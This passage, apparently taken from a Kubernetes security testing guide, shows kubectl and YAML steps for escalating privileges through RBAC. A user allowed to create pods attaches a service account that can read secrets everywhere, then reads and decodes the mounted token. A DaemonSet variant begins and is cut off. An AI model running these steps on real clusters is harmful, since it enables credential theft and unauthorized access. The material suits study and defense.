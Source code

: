```bash
metadata:
name: test-crb
subjects:
- kind: ServiceAccount
namespace: default
name: test-sa
apiGroup: ""
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get pods

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: v1
kind: Pod
metadata:
name: test-pod
namespace: default
spec:
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100000']
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete pod test-pod
kubectl delete clusterrolebinding test-crb
kubectl delete clusterrole test-cr
kubectl delete rolebinding test-rb
kubectl delete role test-r
kubectl delete serviceaccount test-sa
```
## Utwórz Daemonset
```bash
# Create Service Account test-sa
# Create role and rolebinding to give list & create permissions over daemonsets in default namespace to user Test
# Create clusterrole and clusterrolebinding to give the SA test-sa access to secrets everywhere

echo 'apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa
---
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
name: test-r
```